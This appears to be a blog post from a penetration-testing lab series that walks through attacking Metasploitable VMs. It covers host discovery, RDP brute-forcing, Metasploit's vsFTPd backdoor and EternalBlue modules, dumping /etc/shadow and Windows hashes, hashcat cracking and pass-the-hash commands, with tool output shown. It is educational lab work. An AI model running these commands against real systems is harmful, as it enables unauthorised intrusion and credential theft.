


## 1. Discovering live systems
When pentesting an organisation they may give you internal access to the network along with an agreement of what scope of the system should be targeted, make sure this agreement isn't breached as this can break legal agreements.

I will be using metasploitable 2 and metasploitable 3 created in the labs section [[4. Setting up Metasploitable 2]](../part-1-buidling-a-penetration-testing-labs/#4-setting-up-metasploitable-2)

### 1.1 Scanning for available devices using Netdiscover
Using netdiscover, I will scan for available devices within a range, make sure vm or attacking machine isn't connected to the internet or other networks as the scan can pick up on other devices. This is a stealthy way of scanning for devices as it listens for ARP messages sent by hosts.
```bash
$ sudo netdiscover -pf # Random, passive fast scan
$ sudo netdiscover -r 172.30.1.0/24 -i eth1 # Range scan and NIC 
```


Sometimes ICMP probing can be disabled on some network to avoid hacker from discovering systems on a network

### 1.2 Scanning for available devices using Nmap
```bash
$ nmap -sn 172.30.1.0/24
```


### 1.3 Scanning for available devices using nbtscan
Using `nbtscan` to scan for any file sharing systems running on the network with `sudo nbtscan -r 172.30.1.0/24` 


## 2. Profiling a target system
It is important to perform as much recon on a target such as scanning for ports, OS version, running services as most systems run software on an older version as updating to a newer version will mean down-time due to having to reconfigure or it not being compatible with other software within the infrastructure. Sometimes the system just works so there is no need to update to a newer version ¯\_(ツ)_/¯

### 2.1 Using Nmap to scan for OS versions

```bash
$ nmap -A 172.30.1.21
```


## 3. Exploring password-based attacks
There are a wide range of techniques to crack accounts, login portals and password-protected files or devices:

- Brute force - Using combination list of possible passwords
    - Password spraying - Using the same password on multiple accounts 
- Dictionary attack - Using a list of common words and phrases
- Password guessing
- Password cracking - Uses tools and techniques to retrieve login credentials
- Credential stuffing - Use password from a breached database Username:Password on multiple platform for credential overlap.
- Online password attacks - Web based or protocol cracking
- Offline password attacks - Password-protected devices, zip files, encrypted drives etc.

### 3.1 Using Ncrack to guest passwords online
For this I will be using the Win2k8 vagrant machine as a victim and will be attacking the rdp protocol hosted on port 3389, here is a nmap scan with script probing:


```bash
┌──(kali㉿kali)-[~]
└─$ ncrack -vv -T 3 -u Administrator -P /usr/share/wordlists/rockyou.txt rdp://172.30.1.21

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-06-13 06:46 BST

Discovered credentials on rdp://172.30.1.21:3389 'Administrator' 'vagrant'
```

### 3.2 Using Hydra to guest passwords online
Hydra is another popular online cracking tool which has multiple uses to target web pages and protocols, a great tool to have. Same target as 3.1:

```bash
sudo hydra -t 4 -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://172.30.1.21
```
- Results:


### 3.3 Exploiting Remote Desktop Protocol (RDP)
With the password cracked from 3.1 and 3.2 I can use the `rdesktop` tool to remotely access which should give me full view and control of the user which is `Administrator:vagrant`

```bash
rdesktop -u Administrator -p vagrant 172.30.1.21:3389 -g 1280x1024
```


### 3.4 Creating custom wordlists/dictionary using CeWl
When using a brute force dictionary attack like in 3.1 and 3.2 if the password isn't contained within the wordlist then there will be no access.

There are many tools to generate custom wordlists with specific regex, CeWL is unique as it takes a website as an input for generating a wordlist by using common words used on the website.

```bash
cewl example.com -m 6 -w output_dictionary_file.txt
```
website:

Results:
```
Example
Domain
domain
illustrative
examples
documents
literature
without
coordination
asking
permission
information
```
### 3.5 Creating custom wordlists/dictionary using Crunch

Seems to throw a `setlocale() failed` error may require fix on main pc 


Crunch allows for custom wordlist generation which can be done by providing a min and max character count along with some key words and rules to generate every possible combination using what has been provided

```bash
crunch 4 4 0123456789ABC -o output_file.txt
```

## 4. Identifying and Exploiting Vulnerable services
In this section I will be exploiting plain login access for File Transfer Protocol (FTP) and Server Messaging Block (SMB)

### 4.1 Anonymous Login Misconfiguration on FTP
File Transfer Protocol commonly on port 21 is used to allow external access from other machines to a storage server as a way to download files remotely.

Upon scanning the Win2k8 machine I can see that a misconfiguration to the server has been made which allows for anonymous FTP login. Tut-tut, an easy prey, very naughty.

1. Nmap script probing scan on Win2k8 lab machine we can see that login in with the user Anonymous:<any input> will grant access but something more interest appeared:


2. Looking up "vsFTPd 2.3.4 vulnerability" on the internet shows a metasploitable module which can give me a backdoor to the prey. Load msf and module `unix/ftp/vsftpd_234_backdoor`


3. After gaining a reverse shell I spawned a python-based pseudo terminal in the bind shell with `python -c `import pty:pty.spawn("/bin/bash")`


4. Listed passwords stored in `/etc/shadows` which I then saved in a txt file to be cracked using John the Ripper 


### 4.2 SMB Eternalblue vulnerability

more on SMB open at HackTricks: https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb



SMB is a protocol used to send files over one connected device such as nodes, printers and serial ports on a network. Commonly hosted on port 445, 135-139, SMB is commonly used on Windows machines.

1. First Nmap scan common SMB port range between 135-139:


2. See that the Win2k8 machine is using Windows Server 2008 and load up the MSF `windows/smb/ms17_010_eternalblue` module:



3. After getting a shell, retrieved login accounts and password hash credentials with the `hashdump` command in meterpreter and checked hash ID:


### 4.3 Cracking Passwords with Hashcat
From the hash retrieved we can use hashcat to compare the hash of a common wordlist against the hashes we have, if it's a hit I will have access to the network such as admin login creds ᶘ ᵒᴥᵒᶅ

```bash
$ hashcat -m 1000 /home/val/Desktop/hashdump.txt -a 0 /home/val/Downloads/rockyou_1.txt 
```


### 4.4 Getting a shell with PsExec
Microsoft have developed a suite of tools known as sysinternals which provides a set of tools for administrators, they can be found and downloaded from: https://learn.microsoft.com/en-us/sysinternals/downloads 

One of these tools under the process utilities category is the `PsExec` which is a remote control program which allows sysadmins to execute programs.

1. Loading MSF and module `windows/smb/psexec` to exploit 


2. Gain reverse shell of network with command `shell`


### 4.5 Accessing remote shares using SMBclient
SMBclient is a tool which allows user talk to a SMB server such as accessing files stored, uploading files from a local machine and retrieving directory information. This is part of the Samba suite.

```bash
# Access smb server using admin as user input
smbclient -L \\\\172.30.1.23\\ -U Administrator
```
When listing file shares on windows system `\\\\` is required before the IP and `\\` after the IP

1. This will display all the available root directories available for navigation, a folder can then be explored using: `smbclient \\\\172.30.1.21\\ADMIN$ -U Administrator`

1. Discovering Admin folder:


2. Discovering C$ folder:



3. Download image file `jack_of_diamonds.png` with the `get` command.

Due to misconfigurations I am able to download sensitive images and logs which could be used to further target an organisation or innocents.

## 5 Passing the Hash Technique
Brute-force and dictionary password attacks take long time to perform which isn't ideal for pentesters where they will have time constraints.

This is where the passing the hash techniques is used as it will capture the NTLM password hash stored by windows system and pass it to the active directory (AD) and Domain Controller (DC) using specific tools to execute code remotely without having to crack password.

### 5.1 Getting that shell with PTH-WinExe
Using the Hash gathered from the hashdump earlier, using pass-the-hash for windows module from the [Pass-The-Hash](https://www.kali.org/blog/pass-the-hash-toolkit-winexe-updates/) toolkit to transfer the hash over the network.
```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b //172.30.1.21 cmd
```


### 5.2 Impacket, the tool to rule them all
Impacket is a suite of networking tools, written in Python, designed for pentesting networks, here are the available tools:


I will be performing a PTH attack with the `impacket-psexec` Python module on the Win2k8 machine

```bash
impacket-psexec Administrator@172.30.1.21 -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
```


## 6. Gaining Access by Exploiting SSH
SSH is a network protocol which allows administrators to log into a machine and perform remote code execution.

1. Nmap scan for common SSH port 22:


2. Load MSF and the module `scanner/ssh/ssh_enumusers` to get a list of possible users:


3. Then use the `scanner/ssh/ssh_login` MSF module to attempt an SSH login with the credentials Administrator:vagrant. 

We got these from previous sections from hash cracking, use the `sessions` command to move shell to background


4. Checked sessions ID with `sessions` and used `sessions -i <session-ID>`


## 7. Exploiting Windows Remote Management WinRM

More details at https://learn.microsoft.com/en-us/windows/win32/winrm/portal


WinRM is a protocol which allows administrators to remotely manage computers on a network. Commonly found on port HTTP-5985 and HTTPS-5986.

### 7.1 WinRM enumerating with MSF
1. Nmap script scan on port 5985:
```bash
$ nmap -A -p 5985 172.30.1.21
```


2. Load MSF and the module `auxiliary/scanner/winrm/winrm_cmd`


3. Fill out options for MSF WinRM module and execute the exploit


Result:

```bash
Windows IP Configuration                                                                   
   Host Name . . . . . . . . . . . . : vagrant-2008R2                                                       
   Primary Dns Suffix  . . . . . . . :                                                                      
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Desktop Adapter #2
   Physical Address. . . . . . . . . : 08-00-27-66-C5-26
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::1152:69be:3691:de8%14(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.11.12.22(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Lease Obtained. . . . . . . . . . : Saturday, May 04, 2024 10:15:24 PM
   Lease Expires . . . . . . . . . . : Saturday, May 04, 2024 10:35:24 PM
   Default Gateway . . . . . . . . . :
   DHCP Server . . . . . . . . . . . : 10.11.12.1
   DHCPv6 IAID . . . . . . . . . . . : 319291431
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2B-A8-88-83-08-00-27-D7-CC-D8
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Desktop Adapter
   Physical Address. . . . . . . . . : 08-00-27-D7-CC-D8
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::fd63:83a2:85e3:4729%11(Preferred)
   IPv4 Address. . . . . . . . . . . : 172.30.1.21(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Lease Obtained. . . . . . . . . . : Saturday, May 04, 2024 10:15:28 PM
   Lease Expires . . . . . . . . . . : Saturday, May 04, 2024 10:35:28 PM
   Default Gateway . . . . . . . . . :
   DHCP Server . . . . . . . . . . . : 172.30.1.1
   DHCPv6 IAID . . . . . . . . . . . : 235405351
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2B-A8-88-83-08-00-27-D7-CC-D8
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{13E679E5-F4ED-4489-A265-22795E3ACF25}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter isatap.{6FEEDED4-FC1E-4857-BEB8-72167D5BDAA6}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

```
### 7.2 Exploit winrm with MSF
1. Very simple for this version of winrm, load MSF module `windows/winrm/winrm_script_exec` and fill options:


result:


**Bruh** we need a lil break from all this talk of computers, lets drink something Ꮚ˘ꍓ˘Ꮚ
 That feels much better, just a few more and we're done, thank you for hanging in there even if you don't fully understand, I'm just glad you're reading this.

## 8. Exploiting Simple Network Management Protocol SNMP with MSF

IT professionals will always look for innovative solutions to monitor assets on a network such as clients, servers, network devices. This is where SNMP comes in as it is a very popular networking protocol that allows them to do just that in an easy manner, it utilises **User Datagram Protocol** (UDP)

1. Performing an Nmap scan for both UDP and TCP on the common port of 161:
```bash
$ sudo nmap -sU -sT -p U:161,T:161 172.30.1.21
```


2. Load MSF and the module `scanner/snmp/snmp_enum`


Results:

```bash
[+] 172.30.1.21, Connected.

[*] System information:

Host IP                       : 172.30.1.21
Hostname                      : vagrant-2008R2
Description                   : Hardware: Intel64 Family 6 Model 158 Stepping 10 AT/AT COMPATIBLE - Software: Windows Version 6.1 (Build 7601 Multiprocessor Free)
Contact                       : -
Location                      : -
Uptime snmp                   : 00:44:55.75
Uptime system                 : 00:44:40.24
System date                   : 2024-5-4 23:00:14.2

[*] User accounts:

["sshd"]            
["Guest"]           
["greedo"]          
["vagrant"]         
["han_solo"]        
["kylo_ren"]        
["boba_fett"]       
["chewbacca"]       
["ben_kenobi"]      
["jabba_hutt"]      
["artoo_detoo"]     
["c_three_pio"]     
["darth_vader"]     
["leia_organa"]     
["sshd_server"]     
["jarjar_binks"]    
["Administrator"]   
["luke_skywalker"]  
["anakin_skywalker"]
["lando_calrissian"]

[*] Network information:

IP forwarding enabled         : no
Default TTL                   : 128
TCP segments received         : 852430
TCP segments sent             : 823689
TCP segments retrans          : 0
Input datagrams               : 292603
Delivered datagrams           : 292896
Output datagrams              : 407015

[*] Network interfaces:

Interface                     : [ up ] Software Loopback Interface 1
Id                            : 1
Mac Address                   : :::::
Type                          : softwareLoopback
Speed                         : 1073 Mbps
MTU                           : 1500
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (SSTP)
Id                            : 2
Mac Address                   : :::::
Type                          : unknown
Speed                         : 1073 Mbps
MTU                           : 4091
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (L2TP)
Id                            : 3
Mac Address                   : :::::
Type                          : unknown
Speed                         : 1073 Mbps
MTU                           : 1460
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (PPTP)
Id                            : 4
Mac Address                   : :::::
Type                          : unknown
Speed                         : 1073 Mbps
MTU                           : 1464
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (PPPOE)
Id                            : 5
Mac Address                   : :::::
Type                          : ppp
Speed                         : 1073 Mbps
MTU                           : 1494
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (IPv6)
Id                            : 6
Mac Address                   : 88:e2:20:52:41:53
Type                          : ethernet-csmacd
Speed                         : 1073 Mbps
MTU                           : 1500
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (Network Monitor)
Id                            : 7
Mac Address                   : 88:e2:20:52:41:53
Type                          : ethernet-csmacd
Speed                         : 1073 Mbps
MTU                           : 1500
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (IP)
Id                            : 8
Mac Address                   : 88:e2:20:52:41:53
Type                          : ethernet-csmacd
Speed                         : 1073 Mbps
MTU                           : 1500
In octets                     : 0
Out octets                    : 0

Interface                     : [ down ] RAS Async Adapter
Id                            : 9
Mac Address                   : 20:41:53:59:4e:ff
Type                          : ppp
Speed                         : 0 Mbps
MTU                           : 0
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] WAN Miniport (IKEv2)
Id                            : 10
Mac Address                   : 00:00:00:00:00:00
Type                          : unknown
Speed                         : 0 Mbps
MTU                           : 1480
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter
Id                            : 11
Mac Address                   : 08:00:27:d7:cc:d8
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 44474455
Out octets                    : 33542944

Interface                     : [ up ] Microsoft ISATAP Adapter
Id                            : 12
Mac Address                   : 00:00:00:00:00:00
Type                          : unknown
Speed                         : 0 Mbps
MTU                           : 1280
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] Microsoft ISATAP Adapter #2
Id                            : 13
Mac Address                   : 00:00:00:00:00:00
Type                          : unknown
Speed                         : 0 Mbps
MTU                           : 1280
In octets                     : 0
Out octets                    : 0

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter #2
Id                            : 14
Mac Address                   : 08:00:27:66:c5:26
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 6452
Out octets                    : 41251

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter-QoS Packet Scheduler-0000
Id                            : 15
Mac Address                   : 08:00:27:d7:cc:d8
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 44474455
Out octets                    : 33542944

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter-WFP LightWeight Filter-0000
Id                            : 16
Mac Address                   : 08:00:27:d7:cc:d8
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 44474455
Out octets                    : 33542944

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter #2-QoS Packet Scheduler-0000
Id                            : 17
Mac Address                   : 08:00:27:66:c5:26
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 6452
Out octets                    : 41251

Interface                     : [ up ] Intel(R) PRO/1000 MT Desktop Adapter #2-WFP LightWeight Filter-0000
Id                            : 18
Mac Address                   : 08:00:27:66:c5:26
Type                          : ethernet-csmacd
Speed                         : 1000 Mbps
MTU                           : 1500
In octets                     : 6452
Out octets                    : 41251
```

## 9. Watering hole attacks
This section is more of a way to infect employees that work at an unpenetrable organisation which have though of every firewall technique and built up a wall so strong that it seems impossible to get in.

This is similar to **medival times** where the kings will build the best defense with water around the castle with a drop gate, have guards monitor day and night on the lookout for any wanderers to protect their people.

A technique to get in would be to just sit and wait for someone to leave the castle to buy things at the markets outside the castle because the king charges too much for a coffee. You would wait until they're distracted and go behind them in the shadows while they head back inside the castle.

In the **Cyber World** this is known as a watering hole attack which finds a tiny hole in the wall and go all in. This can be done by infecting a public wifi network e.g. coffee shops, bakeries, Mc Donalds and wait for them to connect which will allow us to plant a payload to be executed inside the organisation and boom, I'm sorry buts it's already over from there.

## 10. Conclusion

Well that's enough of me yappin about computers, this book series is realy enjoyable and once I'm completed I will through myself in the trenches of the **Wire** in hopes to get better to defend the innocents against the **Black Hat** which their  sole purpose on this earth is to wreak havoc.

Motivated by **Money**, **Power**, **Radical** political views, extreme methods to spread word. They opperate underground, unreachable from the real world where they piggy back off Hostpitals, Charities, small start-ups, vulnerable people and even lost pet posters that offer a rewards for finding the pet. These are people that have their brain and "souls" fogged with these motives which bring a disgrace to humanity.

They may have reasons to do these things such as to provide for families but shutting down hostpitals, calling lost pet owners to send money to a wallet otherwise they won't release their "found" lost pet is crossing the line. There are better ways to make money and just know, **The internet never forgets** and we will find you, just a matter of when.

Ooooooookkkkk that went a little dark ∩｡• ᵕ •｡∩ ♡

Urm just wanted to say that if you're reading this there will be more, I am starting to like this blog thing. It started out as a portfolio in **Part 1** but it felt boring so I just started writing what I wanted. It feels freeing and actualy fun to learn again, you can do it with almost all discipline just add a bit of creativity in your work and be grateful for where you are currently in time.

This is too long I should shut up now, see you in the next one.

